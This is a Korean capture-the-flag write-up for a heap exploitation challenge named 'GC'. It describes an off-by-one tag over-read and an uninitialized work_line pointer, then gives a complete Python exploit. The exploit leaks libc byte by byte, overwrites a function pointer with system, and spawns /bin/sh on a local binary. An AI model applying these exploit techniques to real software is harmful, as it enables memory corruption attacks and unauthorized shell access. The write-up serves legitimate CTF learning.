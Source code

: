 GC 687 (Solver : 6)
=============

### 1. Introduction

| RELRO    | STACK CANARY    | NX         | PIE         | RPATH    | RUNPATH    | FILE |
|----------|-----------------|------------|-------------|----------|------------|------|
| No RELRO | No canary found | NX enabled | PIE enabled | No RPATH | No RUNPATH | gc   | 

이런 포너블을 많이 풀어야 실력이 늘듯하다.

### 2. Vulnerability
- Box에 달린 tag를 출력할 때 설정한 크기보다 1바이트 더 출력한다.

```c
  else
    v1 = *((i & 0xFFFFFFFFFFFFFFFCLL) + 16);
  v1(v2, box->tag_string, box->tag_len, 0LL);
  if ( *(i & 0xFFFFFFFFFFFFFFFCLL) == i )
  {
    work_line = 0LL;
  }
  else
  {                                             // Workline is not initialize.
    *(*((i & 0xFFFFFFFFFFFFFFFCLL) + 8) & 0xFFFFFFFFFFFFFFFCLL) = *(i & 0xFFFFFFFFFFFFFFFCLL);// *(*(i + 8)) = *(i)
    *((*(i & 0xFFFFFFFFFFFFFFFCLL) & 0xFFFFFFFFFFFFFFFCLL) + 8) = *((i & 0xFFFFFFFFFFFFFFFCLL) + 8);//  *(*(i) + 8) = *(i + 8)
  }
  if ( storage_list )
  {
```
- store하려는 i(box)에 있는 주소가 i와 같지 않다면 else문으로 가서 work_line을 초기화하지 않는다.

### Exploit
copy gc를 이용하여 memory leak을 할 수 있는데, 그 이유는 gc를 하는 과정에서 메모리를 초기화하지 않기 때문이다. 그래서 바로 leak을 할 수 있고, exploit의 경우
work_line을 초기화하지 않는것을 이용하여 work_line과 storage를 같은 메모리를 가르키게 만들고 storage가 구조체에서 함수를 호출하는것을 이용하여 exploit하면 된다.

```python
from ntpwn import *

s = process('./gc')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# local
b = BP(s)
b.bp('tracemalloc on')
#b.bpie64(0x12f0) # egg alloc
#b.bpie64(0x15a0) # box_alloc
#b.bpie64(0x1469) # box_alloc -> egg
#b.bpie64(0x21a0) # gc-fun1
#b.bpie64(0x1dc0) # gc
#b.bpie64(0x1001) # print_storage
#b.bp('b *system')
b.bp('c')
b.done()

def getegg():
	s.sendlineafter('Command:\n','1')

def box(size):
	s.sendlineafter('Command:\n','2')
	s.sendlineafter(':\n',size)

def storebox():
	s.sendlineafter('Command:\n','3')

def storetag(length,string):
	s.sendlineafter('Command:\n','3')
	s.sendlineafter('length:\n',length)
	s.sendlineafter('string:\n',string)

def getbox(idx):
	s.sendlineafter('Command:\n','4')
	s.sendlineafter(':\n',idx)

def deliver(idx):
	s.sendlineafter('Command:\n','5')
	s.sendlineafter(':\n',idx)

def viewlist():
	s.sendlineafter('Command:\n','6')

def settag(length,string):
	s.sendlineafter('Command:\n','6')
	s.sendlineafter('length:\n',length)
	s.sendlineafter('string:\n',string)

# 0x100000 = 131072 * 8
libc = ''
for i in range(6):
	for j in range(3):
		getegg()

	box('3')
	storetag(str(0x300),'A')
	deliver('0')

	box('0')
	storetag(str(0x100000 - 0x40),'A')
	deliver('0')

	box('0')
	storetag(str(8),'A' * i)
	deliver('0')
	s.recvuntil('$>' + 'A' * i)
	libc += s.recv(1)

mmap = u64(libc + "\x00" * 2)
libc_base = mmap - 14106675
system = libc_base + l.symbols['system']
log.info("MMAP LEAK : " + hex(mmap))
log.info("LIBC_BASE LEAK : " + hex(libc_base))

# padding
payload = p64(0) * 15 + p64(system) + p64((1 << 64) - 0x20)
box('0')
storetag(str(0x100000 - 0x40),'A')
deliver('0')
box('0')
storetag(str(0x100000 - 0x40),payload)
deliver('0')

# overwrite
box(str(131072-10))
getegg()
box(str(0))
storetag(str(0x18),'/bin/sh\x00'.ljust(0x18,'A'))
deliver('0')
storetag('1','A')

getegg()
viewlist()
s.recvuntil('65):')


s.interactive()
```



